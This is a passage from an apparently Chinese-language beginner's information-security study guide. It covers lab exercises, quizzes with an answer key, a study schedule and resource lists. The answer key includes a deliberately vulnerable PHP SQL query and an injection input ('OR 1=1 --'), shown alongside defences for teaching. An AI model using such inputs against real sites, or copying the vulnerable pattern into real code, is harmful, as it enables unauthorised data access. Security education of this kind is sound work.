### 提高级（第5-6个月）

#### 实验9：栈溢出基础
- **目标**：理解缓冲区溢出原理
- **内容**：
  - 关闭保护机制（NX、ASLR）的简单栈溢出
  - 计算偏移量
  - 覆盖返回地址
  - 跳转到 shellcode
- **工具**：gdb + pwndbg、pwntools
- **练习**：pwnable.kr toddler 级题目

#### 实验10：综合渗透测试
- **目标**：综合运用所学知识
- **内容**：
  - 信息收集（端口扫描、目录扫描）
  - 漏洞发现与利用
  - 提权
  - 后渗透（获取敏感信息）
- **靶场**：VulnHub、HackTheBox Starting Point、Metasploitable

---

## 第五部分：练习题与自测

### 5.1 选择题

**1. 信息安全 CIA 三元组不包括以下哪项？**
A. 机密性 (Confidentiality)  
B. 完整性 (Integrity)  
C. 可用性 (Availability)  
D. 可审计性 (Accountability)

**2. 以下哪种算法是对称加密算法？**
A. RSA  
B. ECC  
C. AES  
D. SHA-256

**3. 关于哈希算法，以下说法正确的是？**
A. 哈希是可逆的，有密钥可以还原原文  
B. 相同的输入可以产生不同的哈希值  
C. 不同的输入一定产生不同的哈希值  
D. 哈希算法是单向的，不可逆

**4. XSS 和 CSRF 的主要区别是？**
A. XSS 只影响前端，CSRF 只影响后端  
B. XSS 是注入脚本，CSRF 是冒用用户身份发请求  
C. XSS 需要用户登录，CSRF 不需要  
D. XSS 和 CSRF 是同一种攻击的不同名称

**5. 以下哪个不是 OWASP Top 10 2021 中的漏洞？**
A. SQL注入  
B. XSS  
C. 缓冲区溢出  
D. 访问控制失效

**6. 数字签名主要用于保证？**
A. 机密性  
B. 完整性和不可抵赖性  
C. 可用性  
D. 以上都是

**7. IDS 和 IPS 的主要区别是？**
A. IDS 是硬件，IPS 是软件  
B. IDS 只能检测，IPS 可以主动阻断  
C. IDS 比 IPS 更先进  
D. 没有区别，只是名称不同

**8. 密码存储最安全的方式是？**
A. 明文存储  
B. MD5 哈希  
C. SHA-256 哈希  
D. bcrypt/Argon2 加盐哈希

**9. RBAC 访问控制模型中，权限是分配给？**
A. 用户  
B. 角色  
C. 部门  
D. 资源

**10. 等保 2.0 将信息系统分为几个安全保护等级？**
A. 3级  
B. 4级  
C. 5级  
D. 6级

### 5.2 简答题

**1. 请简述对称加密和非对称加密的区别及各自的适用场景。**

**2. 什么是 SQL 注入？请举例说明漏洞代码、攻击方式和防御措施。**

**3. 请解释数字签名的工作原理和作用。**

**4. 什么是零信任安全模型？它的核心思想是什么？**

**5. 请列举至少 5 种 Web 安全漏洞及对应的防御方法。**

**6. 什么是缓冲区溢出？它的危害是什么？有哪些防护机制？**

**7. 请简述 TLS 握手的大致过程。**

**8. 应急响应的基本流程是什么？**

### 5.3 实操题

**1. 密码学实操**
- 使用 OpenSSL 生成一对 RSA 密钥（2048位）
- 用公钥加密一个文本文件
- 用私钥解密还原
- 对文件进行数字签名和验证

**2. Web 安全实操**
- 搭建 DVWA 靶场
- 完成 low 级别的 SQL Injection
- 完成 low 级别的 XSS (Reflected + Stored)
- 完成 low 级别的 CSRF

**3. 编程题**
- 用 Python 实现一个简单的 Caesar 密码加密解密函数
- 用 Python 实现一个检测 SQL 注入关键字的函数（理解输入过滤的思路）

### 5.4 参考答案

#### 选择题答案

| 题号 | 答案 | 说明 |
|------|------|------|
| 1 | D | CIA是机密性、完整性、可用性，可审计性不属于三元组 |
| 2 | C | AES是对称加密，RSA和ECC是非对称，SHA-256是哈希 |
| 3 | D | 哈希是单向不可逆的。C错误，因为理论上存在碰撞可能 |
| 4 | B | XSS是注入脚本执行，CSRF是冒用身份发起请求 |
| 5 | C | 缓冲区溢出属于系统安全/Pwn，不是Web Top 10 |
| 6 | B | 数字签名保证完整性和不可抵赖性，不保证机密性 |
| 7 | B | IDS只检测告警，IPS可以主动阻断 |
| 8 | D | 慢哈希算法加盐是最安全的密码存储方式 |
| 9 | B | RBAC是基于角色的访问控制，权限分配给角色 |
| 10 | C | 等保2.0分5个等级 |

#### 简答题参考答案

**1. 对称加密 vs 非对称加密**
- 对称加密：同一密钥加密解密，速度快，适合大数据量加密，但密钥交换困难
- 非对称加密：公钥加密私钥解密（或反之），密钥交换方便，但速度慢，适合小数据
- 实际应用：通常结合使用（TLS中用非对称交换密钥，用对称加密通信）

**2. SQL注入**
- 原理：用户输入被拼接到SQL语句中，攻击者构造输入改变SQL语义
- 漏洞代码示例：`$sql = "SELECT * FROM users WHERE id = " . $_GET['id'];`
- 攻击示例：`?id=1 OR 1=1 --` 返回所有数据
- 防御：参数化查询（预编译语句）、输入验证、最小权限

**3. 数字签名**
- 原理：发送方用私钥对消息哈希值加密（签名），接收方用公钥验证
- 作用：身份认证（确认发送者）、完整性（消息未被篡改）、不可抵赖（不能否认）

**4. 零信任**
- 核心思想：永不信任，始终验证
- 不假设网络内部就是安全的
- 每个访问请求都需要认证和授权
- 基本原则：身份验证、最小权限、持续监控

**5. Web安全漏洞及防御**（任选5个即可）
- SQL注入 → 参数化查询
- XSS → 输出编码、CSP、HttpOnly
- CSRF → CSRF Token、SameSite Cookie
- SSRF → 白名单、禁用危险协议
- 文件上传 → 白名单验证、文件重命名、不可执行权限
- 命令注入 → 避免调用系统命令、输入过滤
- 反序列化 → 避免反序列化不可信数据

**6. 缓冲区溢出**
- 原理：向缓冲区写入超过容量的数据，覆盖相邻内存（如返回地址）
- 危害：程序崩溃、执行恶意代码、提权
- 防护机制：Stack Canary（栈金丝雀）、DEP/NX（数据执行保护）、ASLR（地址空间随机化）、RELRO

**7. TLS握手大致过程**
- 客户端发送ClientHello（支持的加密套件、随机数）
- 服务器回应ServerHello（选定套件、随机数）、证书、ServerHelloDone
- 客户端验证证书，发送预主密钥（用服务器公钥加密）
- 双方用三个随机数生成会话密钥
- 交换Finished消息验证握手完成
- 后续使用对称密钥加密通信

**8. 应急响应流程（PDCERF）**
- 准备（Preparation）：工具、流程、预案准备
- 检测（Detection）：发现安全事件
- 遏制（Containment）：控制影响范围，防止扩散
- 根除（Eradication）：清除恶意代码、修复漏洞
- 恢复（Recovery）：恢复业务正常运行
- 跟踪（Follow-up）：总结复盘、改进防护

---

## 第六部分：学习路径与资源推荐

### 6.1 分阶段学习计划

#### 第一阶段：基础夯实（第1-2个月）

**目标**：建立信息安全整体认知，掌握基础知识

| 周次 | 学习内容 | 实践任务 |
|------|----------|----------|
| 第1周 | 信息安全概述、CIA三元组、威胁模型 | 搭建Kali虚拟机，熟悉Linux基础命令 |
| 第2周 | 密码学基础（对称/非对称/哈希） | OpenSSL加密解密实验，计算文件哈希 |
| 第3周 | 计算机网络复习（TCP/IP、HTTP） | Wireshark抓包分析HTTP/TCP |
| 第4周 | 身份认证与访问控制 | 搭建简单的用户登录系统，理解认证流程 |
| 第5-6周 | Web基础（HTML/CSS/JS/PHP） | 写一个简单的动态网页，理解前后端交互 |
| 第7-8周 | Python编程基础 | 写一些爬虫、脚本工具，熟悉Python |

#### 第二阶段：核心模块（第3-4个月）

**目标**：掌握Web安全、网络安全核心知识，开始做简单实验

| 周次 | 学习内容 | 实践任务 |
|------|----------|----------|
| 第9-10周 | Web安全入门（SQL注入、XSS） | DVWA low级别SQL注入、XSS实验 |
| 第11周 | CSRF、SSRF、文件上传漏洞 | DVWA对应模块练习 |
| 第12周 | OWASP Top 10 全面了解 | Burp Suite基础使用 |
| 第13-14周 | 网络安全（防火墙、IDS/IPS、VPN） | 配置简单防火墙规则，nmap扫描练习 |
| 第15-16周 | 系统安全基础、密码学进阶 | TLS握手过程理解，证书验证实验 |

#### 第三阶段：实战进阶（第5-6个月）

**目标**：开始CTF练习，深入某一方向

| 周次 | 学习内容 | 实践任务 |
|------|----------|----------|
| 第17-18周 | CTF入门、Misc题型 | BUUCTF新手区Misc刷题（10-20题） |
| 第19-20周 | Web深入、CTF Web题 | BUUCTF新手区Web刷题（10-20题） |
| 第21-22周 | Crypto入门、CTF Crypto题 | 学习常见编码、古典密码、简单RSA |
| 第23-24周 | 逆向/Pwn入门 | 简单的逆向题、栈溢出基础 |

#### 第四阶段：方向深耕（第7个月+）

根据兴趣选择方向深入：

- **渗透测试方向**：OSCP备考、HTB/THM刷机器、内网渗透
- **安全开发方向**：学习安全编码、代码审计、开发安全工具
- **逆向与漏洞挖掘方向**：深入二进制安全、漏洞挖掘、Fuzzing
- **合规与治理方向**：等保测评、ISO 27001、风险评估

### 6.2 推荐学习资源

#### 书籍（入门级）

| 书名 | 推荐理由 |
|------|----------|
| 《白帽子讲Web安全》 | Web安全经典入门书，吴翰清著 |
| 《Web安全深度剖析》 | Web安全系统化讲解 |
| 《密码编码学与网络安全》 | 密码学经典教材（偏理论） |
| 《图解密码技术》 | 密码学入门，图文并茂，通俗易懂 |
| 《CTF特训营》 | CTF各题型入门指南 |
| 《从0到1：CTFer成长之路》 | CTF入门到进阶 |

#### 在线课程

- **B站**：很多免费的入门视频（搜索"Web安全入门"、"CTF入门"）
- **i春秋**：国内老牌安全培训平台
- **实验楼**：边学边练的在线实验平台
- **Coursera**：斯坦福密码学课程等国外名校课程
- **Hack The Box Academy**：国外高质量在线学习平台

#### 靶场与练习平台

| 平台 | 特点 | 地址 |
|------|------|------|
| BUUCTF | 国内题量大，适合入门 | buuoj.cn |
| NSSCTF | 国内平台，题目质量高 | www.nssctf.cn |
| XCTF攻防世界 | 官方平台，分难度区 | adworld.xctf.org.cn |
| DVWA | 经典Web漏洞练习靶场 | （本地部署） |
| picoCTF | 国外入门级CTF，适合新手 | picoctf.org |
| Hack The Box | 国外知名靶场，偏实战 | hackthebox.com |
| TryHackMe | 国外平台，有完整学习路径 | tryhackme.com |
| VulnHub | 虚拟机靶场下载 | vulnhub.com |

#### 常用工具

| 类别 | 工具 | 用途 |
|------|------|------|
| Web渗透 | Burp Suite | 抓包、改包、扫描 |
|  | OWASP ZAP | 开源Web安全扫描器 |
|  | SQLMap | 自动化SQL注入工具 |
|  | dirsearch | 目录扫描工具 |
| 密码学 | CyberChef | 在线瑞士军刀，编解码加密 |
|  | gmpy2/sage | Python大整数运算 |
| 逆向 | Ghidra | NSA开源逆向工具 |
|  | x64dbg | Windows动态调试 |
|  | IDA Pro | 业界标准逆向工具（收费） |
| Pwn | gdb + pwndbg | Linux调试器+增强插件 |
|  | pwntools | Python利用框架 |
|  | checksec | 检查二进制保护 |
| 杂项 | Wireshark | 网络抓包分析 |
|  | binwalk | 固件分析 |
|  | 010 Editor | 十六进制编辑器 |
| 系统 | nmap | 端口扫描 |
|  | Metasploit | 渗透测试框架 |

#### 技术社区与资讯

- **FreeBuf**：国内知名安全媒体
- **先知社区**：阿里安全社区
- **安全客**：安全资讯平台
- **T00ls**：老牌安全论坛
- **知乎**：关注安全话题和大佬
- **GitHub**：找工具、看源码
- **Twitter/X**：关注国外安全研究者

### 6.3 学习建议

1. **动手实践为主**：安全是实践性极强的学科，光看不练等于白学
2. **循序渐进**：打好基础再深入，不要一开始就啃难的
3. **多做CTF题**：以赛促学是很好的方式
4. **写笔记/博客**：输出是最好的学习方式
5. **多交流**：加入安全社群，和同好交流
6. **关注前沿**：安全领域变化快，要持续学习
7. **遵守法律和道德**：只在授权环境下练习，不要触碰法律红线

---

## 写在最后

信息安全是一个非常广阔的领域，没有人能精通所有方向。入门阶段最重要的是建立完整的知识框架，找到自己感兴趣的方向，然后深入下去。

记住：**安全的本质是攻防对抗，是人与人的博弈**。学习安全不仅要学习技术，更要培养安全思维——学会从攻击者的角度思考问题。

祝你学习顺利，在信息安全的世界里找到属于自己的方向！

---

**免责声明**：本文所有技术内容仅用于合法的学习和研究目的。请遵守相关法律法规，任何未经授权的攻击行为都是违法的。技术本身没有善恶，使用技术的人决定了它的用途。
